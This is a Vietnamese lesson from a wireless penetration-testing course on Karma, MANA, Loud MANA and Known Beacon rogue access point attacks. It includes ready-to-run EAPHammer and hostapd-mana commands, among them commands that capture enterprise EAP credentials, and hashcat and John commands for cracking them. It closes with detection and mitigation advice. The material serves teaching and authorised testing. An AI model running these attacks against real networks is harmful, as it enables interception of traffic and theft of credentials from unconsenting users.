

> **Prerequisites**: [[01-802.11-protocol-internals|01. 802.11 Protocol Internals]] · [[02-wireless-lab-setup|02. Wireless Lab Setup]]
> **Objectives**:
> - Hiểu cơ chế Karma attack và tại sao nó không còn hiệu quả với modern OS
> - Nắm vững MANA attack — cách reconstruct PNL và bypass OS protection
> - Thực hiện Loud MANA và Known Beacon attacks
> - Kết hợp Karma/MANA với EAPHammer để tấn công Enterprise networks

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Wireless adapter hỗ trợ monitor mode và AP mode
> - Devices trong range đang probe (WiFi bật, chưa kết nối mạng)
> - **Karma**: Device gửi directed probe requests (legacy behavior — Windows XP era, một số IoT)
> - **MANA**: Devices gửi broadcast probes — modern OS; attacker observe trước để build PNL database
> - **Loud MANA**: Có PNL database từ ít nhất một device nearby

> [!tip] Karma hoạt động tốt nhất với
> IoT devices, legacy Windows XP/7 không vá, các thiết bị với WiFi stack cũ. Modern iOS/Android/Windows 10+ thường chống Karma nhưng dễ bị MANA.

---

## Cơ chế tấn công

![[img-04-karma-mana-flow.svg]]
*Hình 1: Karma vs MANA vs Loud MANA — quá trình khai thác PNL từ đơn giản đến phức tạp*

### Karma Attack (2004) — Cơ sở

Karma attack được phát triển bởi Dino Dai Zovi và Shane Macaulay năm 2004. Ý tưởng:

Khi client thiết bị gửi **directed probe request** (`Probe Request` với SSID cụ thể), một AP thông thường chỉ reply nếu nó chính xác là AP đó. Karma attack làm một AP **reply với tất cả probe requests**, không cần match SSID.

```
Client:    Probe Request (SSID="HomeNet")
RogueAP:   Probe Response (SSID="HomeNet" — giả mạo)
Client:    Authentication Request → Association → Connected!
```

**Kết quả**: Client kết nối vào rogue AP vì nghĩ đó là HomeNet.

**Tại sao Karma không còn hiệu quả với modern OS?** Modern iOS, Android và Windows không gửi directed probes cho open networks (chỉ gửi broadcast probes). Chúng cũng ignore directed probe responses không đi kèm với broadcast probe response trước đó.

### MANA Attack (2015) — Modern Bypass

MANA (được phát triển bởi Ian de Villiers và Dominic White) giải quyết giới hạn của Karma:

1. **Observe broadcast probes** từ các devices (SSID=NULL).
2. **Reconstruct PNL** — từ directed probes và broadcast probes, build database của PNL từng device.
3. **Khi device gửi broadcast probe**: MANA reply với **directed probe responses cho từng SSID** trong PNL của device đó.

Điều này khác với Karma: MANA chỉ respond với SSIDs mà device đó thực sự muốn (đã từng kết nối). Modern OS chấp nhận directed response NẾU trước đó đã thấy broadcast probe được trả lời đúng cách.

### MANA Loud Mode

Một variant mạnh hơn: thay vì respond theo PNL riêng của từng device, rogue AP phát broadcast **union của tất cả PNLs** từ tất cả devices đã observe.

Ứng dụng: nếu Device A dễ bị exploit (gửi nhiều directed probes) nhưng Device B là target thật sự (iOS với PMF), Loud Mode khai thác behavior xấu của A để làm B connect nhờ beacon flooding.

### Known Beacon Attack

Thay vì đợi probe requests, rogue AP phát **beacon frames cho hàng nghìn SSIDs thông dụng** từ wordlist:

```bash
# SSIDs từ common_ssids.txt: "Starbucks", "attwifi", "xfinitywifi", "linksys", ...
```

Nếu device trong range có bất kỳ SSID nào trong wordlist trong PNL → tự động kết nối.

> [!info] Khi nào dùng Known Beacon?
> Khi không observe được probe requests nào (passive scanning only devices). Dùng wordlist bao gồm common public hotspot SSIDs.

---

## Quy trình tấn công

**Môi trường giả định**: wlan0 làm AP/injection, monitor trên channel 6.

### Karma Attack với EAPHammer

```bash
cd /opt/eaphammer

# Basic Karma — Open network (dụ devices kết nối)
sudo ./eaphammer -i wlan0 \
    --channel 6 \
    --auth open \
    --essid "FreeWiFi" \
    --karma

# Karma với DHCP tự động
sudo ./eaphammer -i wlan0 \
    --channel 6 \
    --auth open \
    --essid "FreeWiFi" \
    --karma \
    --dhcp
```

> **Expected output**: `[*] KARMA enabled`, sau đó `[+] Client AA:BB:CC:DD:EE:FF connected (SSID: HomeNet)` khi device kết nối.

### MANA Attack với EAPHammer

```bash
# MANA mode — reconstruct PNL, reply chính xác hơn
sudo ./eaphammer -i wlan0 \
    --channel 6 \
    --auth open \
    --essid "Corp-WiFi" \
    --mana \
    --dhcp

# MANA + cloaking (ẩn SSID trong beacon để tránh detect)
sudo ./eaphammer -i wlan0 \
    --channel 6 \
    --auth open \
    --essid "Corp-WiFi" \
    --mana \
    --cloaking full \
    --dhcp
```

> **Expected output**: `[*] MANA enabled`, `[*] Observed PNL: {AA:BB:CC:11: ["Corp-WiFi", "HomeNet"]}`, rồi `[+] Client connected`.

### Loud MANA Attack

```bash
# Loud mode — broadcast union của tất cả PNLs
sudo ./eaphammer -i wlan0 \
    --channel 6 \
    --auth open \
    --essid "Corp-WiFi" \
    --mana \
    --loud \
    --dhcp
```

> [!warning] Loud mode vs. Opsec
> Loud mode rất noisy — phát hàng trăm beacon frames/giây. Dễ bị phát hiện bởi WIPS. Dùng khi cần tốc độ và opsec không quan trọng.

### Known Beacon Attack

```bash
# Tạo wordlist SSIDs thông dụng
cat > /tmp/common_ssids.txt << 'EOF'
Starbucks
attwifi
xfinitywifi
linksys
HOME-WIFI
NETGEAR
TP-Link_
Hotel_Guest
Airport-Free-WiFi
GoogleGuest
EOF

# Known Beacon với EAPHammer
sudo ./eaphammer -i wlan0 \
    --channel 6 \
    --auth open \
    --known-beacons \
    --known-ssids-file /tmp/common_ssids.txt \
    --dhcp
```

> **Expected output**: `[*] Known Beacon mode: broadcasting 10 SSIDs`, `[+] Client XX:XX:XX connected (matched: Starbucks)`.

### MANA với WPA-Enterprise (Karma Enterprise)

Kết hợp MANA với fake RADIUS để capture EAP credentials từ Enterprise devices:

```bash
# Generate certificates trước
sudo ./eaphammer --cert-wizard

# MANA + WPA-Enterprise credential capture
sudo ./eaphammer -i wlan0 \
    --channel 6 \
    --auth wpa-eap \
    --essid "Corp-Enterprise" \
    --mana \
    --creds \
    --dhcp
```

> **Expected output**: `[+] EAP identity: domain\username`, `[+] MSCHAPv2 Challenge: ...`, `[+] MSCHAPv2 Response: ...` → crack với hashcat -m 5600.

### Với hostapd-mana (Manual)

```bash
# hostapd-mana config
cat > /tmp/hostapd-mana.conf << 'EOF'
interface=wlan0
driver=nl80211
ssid=FreeWiFi
hw_mode=g
channel=6
enable_mana=1
mana_loud=0
mana_credout=/tmp/mana-creds.txt
mana_wpe=0
mana_eapsuccess=1
EOF

sudo hostapd-mana /tmp/hostapd-mana.conf
```

---

## Biến thể & Bypass

### Bypass iOS Random MAC

iOS 14+ dùng random MAC addresses khi probe. MANA vẫn hoạt động vì track probe requests theo session, không theo MAC cố định.

### WPA3 SAE với MANA

WPA3 SAE không dễ bị MANA open network attack — client không tự kết nối vào open rogue AP nếu network thật là WPA3. Giải pháp: dùng collision AP DoS + captive portal (xem Lesson 03 — WPA3 section).

---

## Cây quyết định



---

## Command Cheatsheet

**EAPHammer — Karma / MANA**

```bash
# Karma (open)
sudo ./eaphammer -i wlan0 --channel 6 --auth open --essid "SSID" --karma --dhcp

# MANA (standard)
sudo ./eaphammer -i wlan0 --channel 6 --auth open --essid "SSID" --mana --dhcp

# MANA Loud
sudo ./eaphammer -i wlan0 --channel 6 --auth open --essid "SSID" --mana --loud --dhcp

# Known Beacon
sudo ./eaphammer -i wlan0 --channel 6 --auth open --known-beacons --known-ssids-file ssids.txt --dhcp

# MANA + Enterprise (capture EAP creds)
sudo ./eaphammer -i wlan0 --channel 6 --auth wpa-eap --essid "Corp" --mana --creds --dhcp
```

**hostapd-mana (manual)**

```bash
# Key config lines:
# enable_mana=1       → enable MANA
# mana_loud=1         → enable Loud mode
# mana_credout=FILE   → save EAP creds to file
# mana_wpe=1          → enable WPE (WPA-Enterprise attack)
```

**Crack EAP hashes**

```bash
# MSCHAPv2 (NTLMv2 format)
hashcat -m 5600 eap_hashes.txt /usr/share/wordlists/rockyou.txt

# NTLMv1
hashcat -m 5500 eap_hashes.txt /usr/share/wordlists/rockyou.txt

# JtR alternative
john --format=netntlmv2 eap_hashes.txt --wordlist=rockyou.txt
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày đầu.

**Drill 1 — Phân biệt Karma vs MANA**
Mục tiêu: giải thích cơ chế của từng attack không cần notes.

Luyện cho đến khi: có thể giải thích tại sao Karma thất bại với modern OS và MANA bypass bằng cách nào.

**Drill 2 — EAPHammer flags từ memory**

```bash
# Viết đúng command cho:
# 1. Karma open
# 2. MANA standard
# 3. MANA loud
# 4. MANA + WPA-EAP creds
```

Luyện cho đến khi: 4 command variants không cần reference.

**Drill 3 — Identify correct mode từ scenario**
Scenario: "Bạn observe thấy devices chỉ gửi broadcast probes, không có directed probes. Dùng mode nào?" → MANA standard.
"Devices không gửi bất kỳ probe nào" → Known Beacon.

Luyện cho đến khi: chọn đúng mode trong 5 giây từ description.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Karma**: Rogue AP trả lời nhiều SSIDs khác nhau — WIPS phát hiện ngay.
>
> **MANA Loud**: Số lượng beacon frames bất thường cho một BSSID.
>
> **Client-side**: Device kết nối vào network không quen thuộc.
>
> **SIEM**: Alert khi thấy same BSSID broadcast nhiều ESSIDs khác nhau.

> [!note] Mitigation
> - Tắt WiFi khi không dùng — không gửi probe requests
> - iOS 14+ / Android 10+ với random MAC — giảm PNL leak
> - Dùng VPN ngay khi kết nối mạng public
> - Disable auto-connect với open networks
> - WIPS rule: alert khi AP broadcast hơn 3 ESSIDs khác nhau

---

## Lab Thực hành

| Platform | Machine / Module | Tại sao phù hợp |
|----------|---------|----------------|
| HTB Academy | **Wi-Fi Evil Twin Attacks** | Có section về Karma/MANA với cloud wireless lab |
| Local VMs | Kali + EAPHammer + victim device | Lab tự do, test MANA với smartphone thật |
| HTB Academy | **Wi-Fi Penetration Testing Tools & Techniques** | Tool comparison: EAPHammer vs Airgeddon Karma mode |

---

## Field Manual Entry

> [!abstract] Karma / MANA Attack — Quick Reference
> **Điều kiện**: Devices trong range đang probe; Karma cho directed probes (legacy), MANA cho broadcast probes (modern)
> **Lệnh nhanh**: `sudo ./eaphammer -i wlan0 --channel 6 --auth open --mana --dhcp`
> **Full flow**: Observe probes → MANA reconstruct PNL → respond to broadcast probes → client connects → post-connection attack
> **Look for**: `[+] Client XX:XX:XX connected (SSID: ...)` trong EAPHammer output
> **Upgrade**: `--mana --loud` khi standard MANA chậm; `--known-beacons` khi không observe probes
> **Ref**: [[04-karma-mana-attacks|04. Karma & MANA Attacks]]
